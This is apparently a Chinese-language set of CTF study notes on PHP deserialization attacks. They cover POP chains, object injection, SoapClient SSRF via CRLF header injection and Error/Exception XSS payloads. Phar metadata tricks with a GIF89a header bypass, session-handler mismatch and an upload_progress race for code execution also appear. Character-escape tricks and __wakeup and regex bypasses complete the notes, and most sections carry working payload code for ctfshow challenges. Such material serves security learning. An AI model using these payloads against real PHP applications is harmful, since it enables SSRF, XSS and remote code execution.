










PHP反序列化¶
基础知识¶
当访问控制修饰符(public、protected、private)不同时，序列化后的结果也不同
public 被序列化的时候变量名不会更改
protected 被序列化的时候在变量名前加上\x00*\x00
private 被序列化的时候在变量名前加上\x00类名\x00
访问修饰符
| Public | Protected | Private | |
|---|---|---|---|
| 本类 | 可以访问 | 可以访问 | 可以访问 |
| 子类 | 可以访问 | 可以访问 | 不能访问 |
| 外部 | 可以访问 | 不能访问 | 不能访问 |
魔术方法
| 魔术方法 | 何时调用 |
|---|---|
| __construct | **创建新对象**时调用 |
| __wakeup | 在**使用 unserialize() 时**，会检查是否存在一个 __wakeup() 魔术方法。如果存在，则该方法会先被调用，预先准备对象需要的资源 |
| __toString | __toString() 方法用于定义一个类被**当成字符串时**该如何处理 |
| __destruct | __destruct函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行 |
| __invoke | 当尝试**以调用函数的方式调用一个对象**时， __invoke() 方法会被自动调用（类名+括号形式） |
| __set | **给不可访问属性赋值**时， __set() 会被调用 |
| __get | **读取不可访问属性**赋值时， __get() 会被调用 |
| __unset | 对**不可访问属性调用unset()**时， __unset() 会被调用 |
| __isset | 在**不可访问的属性上调用isset()**或empty()触发 |
| __call | 在对象中调用一个**不可访问方法**时， __call() 会被调用 |
| __sleep | 执行**serialize()**时，先会调用这个函数 |
POP链¶
如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来
<?php
class Modifier {
protected $var;
public function append($value){
include($value);
}
public function __invoke(){
$this->append($this->var);
}
}
class Show{
public $source;
public $str;
public function __construct($file='index.php'){
$this->source = $file;
echo 'Welcome to '.$this->source."<br>";
}
public function __toString(){
return $this->str->source;
}
public function __wakeup(){
if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
echo "hacker";
$this->source = "index.php";
}
}
}
class Test{
public $p;
public function __construct(){
$this->p = array();
}
public function __get($key){
$function = $this->p;
return $function();
}
}
最终是希望通过Modifier当中的append方法实现本地文件包含读取文件，回溯到调用它的__invoke，当我们**将对象调用为函数时触发**,发现在Test类当中的__get方法，再回溯到Show当中的__toString，再回溯到Show当中的__wakeup当中有preg_match可以触发__toString
对象注入¶
对象注入前提：
1、
unserialize的参数可控。 2、 代码里有定义一个含有魔术方法的类，并且该方法里出现一些使用类成员变量作为参数的存在安全问题的函数。
<?php
class Person{
public $name = "cat";
public $age = 2;
}
$b = new Person();
$b->name = 'dog';
$b->age = 3;
echo serialize($b);
// O:6:"Person":2:{s:4:"name";s:3:"dog";s:3:"age";i:3;}
echo urlencode(serialize($b));
?>
把序列化后字符串进行提交，反序列化时触发对象注入
PHP原生反序列化¶
SoapClient¶
php在安装php-soap拓展后，可以反序列化原生类SoapClient，来发送http post请求。
必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。
通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容
首先在VPS上面开启监听nc -lvvp 9328
运行
<?php
$a = new SoapClient(null,array('uri'=>'aaa', 'location'=>'http://127.0.0.1:5555/path'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->dotast();//调用不存在的方法，让SoapClient调用__call


vps会收到请求，其中的header存在
SOAPAction: "aaa#dotast"
因此我们可以尝试注入我们自己恶意构造的**CRLF**即插入**\r\n**，来控制POST请求头
<?php
$a = new SoapClient(null,array('uri'=>"aaa\r\n\r\nbbb\r\n", 'location'=>'http://127.0.0.1:5555/path'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->dotast();


但还有一个问题需要解决，POST数据指定请求头为Content-Type:application/x-www-form-urlencoded，我们需要控制Content-Type，但从上图中可以发现它位于SOAPAtion上方
继续往上，可以发现User-Agent位于Content-Type上方，这个位置也可以进行注入，所以我们再User-Agent进行注入
<?php
$post_string = "dotast=cool";
$a = new SoapClient(null,array('location'=>'http://127.0.0.1:5555/path', 'user_agent'=>"dotast\r\nContent-Type:application/x-www-form-urlencoded\r\n"."Content-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string, 'uri'=>"aaa"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->dotast();


如图，构造任意post请求成功！到此，一系列流程都弄懂后，我们回到ctfshow-web259题目本身
flag.php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
if($ip!=='127.0.0.1'){
die('error');
}else{
$token = $_POST['token'];
if($token=='ctfshow'){
file_put_contents('flag.txt',$flag);
}
}
index.php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
利用ssrf访问flag.php，然后构造post数据token=ctfshow还有xff请求头，paylaod如下
<?php
$post_string = "token=ctfshow";
$a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'user_agent'=>"dotast\r\nContent-Type:application/x-www-form-urlencoded\r\n"."X-Forwarded-For: 127.0.0.1,127.0.0.1\r\n"."Content-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string, 'uri'=>"aaa"));
$b = serialize($a);
echo urlencode($b);
这里X-Forwarded-For里面需要两个127.0.0.1的原因是docker环境cloudfare代理所导致
运行php

get参数vip传入

再访问flag.txt就有了

Error¶
Error类就是php的一个内置类用于自动自定义一个Error，在php7的环境下可能会造成一个xss漏洞，因为它内置有一个toString的方法。
<?php
$a = $_GET['test'];
echo unserialize($a);
构造poc
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);
?>
将序列化后的字符串传入test变量即可**造成弹窗**
Exception类跟Error类原理一样，但是也适用于PHP5
<?php
$x = new Exception("<script>alert('xss')</script>");
$y = serialize($x);
echo urlencode($y);
?>
Phar反序列化web276¶
原理¶
phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data
当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容
phar文件¶
PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件
php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。phar://就是一种内置的流包装器
php中一些常见的流包装器如下：
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
phar文件结构¶
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
content:被压缩文件的内容
signature (可空):签名，放在末尾。
phar demo¶
根据文件结构我们来自己构建一个phar文件，php内置了一个Phar类来处理相关操作
要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件
<?php
class TestObject {
public $data;
}
//@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new TestObject();
$o->data = 'hello';
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
访问后，会生成一个phar.phar在当前目录下，可以看到meta-data是以序列化的形式存储的。
通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，部分受影响的函数列表：
fileatime/filectime/filemtimestat/fileinode/fileowner/filegroup/filepermsfile/file_get_contents/readfile/ `fopen``file_exists/is_dir/is_executable/is_file/is_link/is_readable/is_writeable/is_writableparse_ini_fileunlinkcopy
以常用的函数file_get_contents()函数举例：
<?php
class TestObject{
function __destruct()
{
echo $this -> data; // TODO: Implement __destruct() method.
}
}
file_get_contents('phar://phar.phar/test.txt');
上述例程会输出hello
漏洞利用条件¶
- phar文件要能够上传到服务器端。
- 要有可用的魔术方法作为“跳板”。
- 文件操作函数的参数可控，且
:、/、phar等特殊字符没有被过滤。
绕过方式¶
当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://test.phar/test.txt
GIF格式验证可以通过在文件头部添加GIF89a绕过
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
生成一个phar.phar，修改后缀名为phar.gif
然后上传，通过file_get_contents或者unlink等方法解包触发反序列化（通常使用在没有明显反序列化传参的题目中）
php-session反序列化¶
session介绍¶
当第一次访问网站时，session_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。
同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。
当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。
session的存储¶
php中的session中的内容并不是放在内存中的，默认是以**文件**的方式来存储的（由配置项session.save_handler定义）
存储的文件是以sess_sessionid来进行命名的
除了默认的php引擎之外，还存在其他引擎，不同的引擎所对应的session的存储方式不相同
| 处理引擎名称 | 储存格式 |
|---|---|
| php | 键名 + 竖线 + 经过serialize()函数序列化处理的值 |
| php_binary | 键名的长度对应的 ASCII 字符 + 键名 + 经过serialize()函数序列化处理的值 |
| php_serialize | 经过serialize()函数序列化处理的**数组** |
即在**默认引擎**情况下，$_SESSION['name'] = 's1ng';代码会在/var/lib/php/sessions/(也可能在/tmp/sess_)下创建sess_at9ih163p9tadfhdn8f721l7s9文件，文件的内容为name|s:4:"s1ng";
若在**php_serialize引擎**下：
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['name'] = 's1ng';
可以得到：
;root@SYY:/var/lib/php/sessions# cat sess_at9ih163p9tadfhdn8f721l7s9
a:1:{s:4:"name";s:4:"s1ng";}
a:1是使用php_serialize进行序列话都会加上。同时使用php_serialize会将session中的key和value都会进行序列化。
在**php_binary引擎**下：
ini_set('session.serialize_handler', 'php_binary');
session_start();
$_SESSION['name'] = 's1ng';
输出：
root@SYY:/var/lib/php/sessions# cat sess_at9ih163p9tadfhdn8f721l7s9
（这里有一个ascii为4的不可显字符）names:4:"s1ng";
php-session反序列化漏洞成因¶
PHP在反序列化存储的$_SESSION数据时使用的引擎和序列化使用的引擎不一样，会导致数据无法正确的反序列化。
通过精心构造的数据包，就可以绕过程序的验证或者是执行一些系统的方法
$_SESSION['hello'] = '|O:8:"stdClass":0:{}';
上面的 $_SESSION 数据，在存储时使用的序列化处理器为 php_serialize，存储的格式如下:
a:1:{s:5:"hello";s:20:"|O:8:"stdClass":0:{}";}
在读取数据时如果用的反序列化处理器不是 php_serialize，而是 php 的话，那么反序列化后的数据将会变成：
array(1) {
["a:1:{s:5:"hello";s:20:""]=>
object(stdClass)#1 (0) {
}
}
因为当使用php引擎的时候，php引擎会以|作为作为key和value的分隔符，那么就会将a:1:{s:5:"hello";s:20:"作为SESSION的key，将O:8:"stdClass":0:{}作为value，然后进行反序列化，最后就会得到stdClass这个类。
漏洞利用¶
session.auto_start=Off
// foo1.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['test'] = $_GET['test'];
?>
// foo2.php
<?php
session_start(); //此时默认使用php引擎了
class test {
var $hi;
function __wakeup() {
echo 'hi,';
}
function __destruct() {
echo $this->hi;
}
}
访问foo1创建session并以php-serialize引擎方式保存本地：http://172.31.171.100/tmp/foo1.php?test=|O:4:"test":1:{s:2:"hi";s:4:John";}
再访问foo2以php引擎解析本地session文件，发现成功打印出hi,John
session.upload_progress
在php.ini有以下几个默认选项
session.upload_progress.enabled = on #当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
session.upload_progress.cleanup = on #当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
session.upload_progress.freq = "1%"
session.upload_progress.min_freq = "1"
- RCE
<form action="http://e39d4115-3c33-4a6d-bd2c-2d2edb584f0d.chall.ctf.show:8080/" method="POST" enctype="multipart/form-data">
<input type="text" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
<input type="file" name="file" id="file">
<input type="submit" name="submit" value="submit">

这里面的一句话木马就会被写入sess_flag里面
由于在默认情况下，session.upload_progress.cleanup是开启的，所以需要使用**条件竞争**，要赶在还没有读取完post包上传的数据的时候就访问到这个sess_flag文件，执行里面的代码
- 反序列化
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
public $mdzz;
function __construct()
{
$this->mdzz = 'phpinfo();';
}
function __destruct()
{
eval($this->mdzz);
}
}
if(isset($_GET['phpinfo']))
{
$m = new OowoO();
}
else
{
highlight_string(file_get_contents('index.php'));
}
?>
可以看到上面的代码中使用了php引擎，但是没有什么可以控制序列化的点。
通过查看phpinfo发现session.upload_progress.enabled打开，因此就可以利用其向session中写入数据。
第一步跟rce一样，本地构造一个包含PHP_SESSION_UPLOAD_PROGRESS的POST数据包，在cookie中添加PHPSESSID值为自定义的任意字符串
接下来就要构造payload作为filename的值提交，从而赋值给session
<?php
Class OowoO {
public $mdzz = 'print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
$ser = serialize($obj);
$ser = addslashes($ser);
$ser = str_replace("O:5","|O:5",$ser);
echo $ser; //|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
PHPSESSID必须要有，因为要竞争同一个文件
filename可控，但是在值的最前面加上
|,因为最终目的是利用session的反序列化，PHP_SESSION_UPLOAD_PROGRESS只是个跳板其次把字符串中的双引号转义，以防止与最外层的双引号冲突
在这个页面随便上传一个文件，然后抓包修改filename的值，filename的值也就会被序列化进sess_123文件中了

所以总的来说，利用session.upload_progress的前提还是得存储session数据和读取session数据的引擎不一致，要求存储时是php_serialize，读取时是php。
反序列化字符逃逸¶
字符逃逸的本质其实也是闭合，但是它分为两种情况，一是字符变多，二是字符变少
字符变多web262¶
**后端**对我们输入的序列化后的字符进行**替换**成为**长度更长**的字符
function change($str){
return str_replace("x","xx",$str);
}
将x替换为xx，再进行反序列化
由于反序列化字符串每个的格式类似于s:4:"play"，然而经过替换后字符串长度变长，和前面的数字不一致了，导致反序列化报错
我们传入name=maoxxxxxxxxxxxxxxxxxxxx";i:1;s:6:"woaini";}
";i:1;s:6:"woaini";}这一部分一共二十个字符
20个x被替换为40个，多出来的20个x其实取代了我们的这二十个字符";i:1;s:6:"woaini";}，从而造成";i:1;s:6:"woaini";}的溢出
而"闭合了前串，使得我们的字符串成功逃逸，可以被反序列化，输出woaini
原来的";i:1;s:7:"I am 11";}"被舍弃，不影响反序列化过程
字符变少¶
function change($str){
return str_replace("xx","x",$str);
}
两个xx被替换为一个x，然后再反序列化
我们输入name=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&age=11";s:3:"age";s:6:"woaini";}
序列化后的结果是s:3:"age";s:28:"11";s:3:"age";s:6:"woaini";}"
由于前面是40个x所以导致少了20个字符，所以需要后面来补上，";s:3:"age";s:28:"11这一部分刚好20个，后面由于有"闭合了前面因此后面的参数就可以由我们自定义执行了
小trick¶
php7.1+反序列化对类属性不敏感¶
如果变量前是protected，序列化结果会在变量名前加上\x00*\x00
特定版本7.1以上则对于类属性不敏感，即使没有\x00*\x00也正常反序列化赋值
绕过__wakeup(CVE-2016-7124)¶
PHP5 < 5.6.25
PHP7 < 7.0.10
利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行
把O:4:"test":1:{s:1:"a";s:3:"abc";}改为O:4:"test":2:{s:1:"a";s:3:"abc";}即可不执行__wakeup方法
绕过部分正则¶
preg_match('/^O:\d+/')在反序列化前过滤O:4开头的字符串
如果此时反序列化构造为
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
法一：使用+绕过
$b = str_replace('O:4','O:+4', $a);
// O:+4:"test":1:{s:1:"a";s:3:"abc";}
法二：外面再套个数组
serialize(array($a));
// a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}
a:array代表是数组，后面的1说明有1个属性
i:代表是整型数据int，后面的0是数组下标
s:代表是字符串，后面的3是因为abc长度为3
利用引用web265¶
<?php
class test{
public $a;
public $b;
public function __construct(){
$this->a = 'abc';
$this->b= &$this->a;
}
?>
这种方法可以将b设为a的引用，从而绕过一些过滤判断
<?php
class ctfshowAdmin{
public $token = "dotast";
public $password = "dotast";
public function login(){
return $this->token===$this->password;
}
}
$a = new ctfshowAdmin();
$a ->token=&$a ->password;
echo urlencode(serialize($a));
// O:12:"ctfshowAdmin":2:{s:5:"token";s:6:"dotast";s:8:"password";R:2;}
出现了不常见的R变量
利用 16 进制绕过过滤¶
将字符串的s改为大写S时，其值会解析 16 进制数据
例如：O:4:"Test":1:{s:3:"cmd";s:6:"whoami";}
可改为：O:4:"Test":1:{S:3:"\\63md";S:6:"\\77hoami";}
从而绕过针对变量名的过滤
同时存在unserialize和wakeup¶
如果 __unserialize() 和 __wakeup()两个魔术方法都定义在用一个对象中， 则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略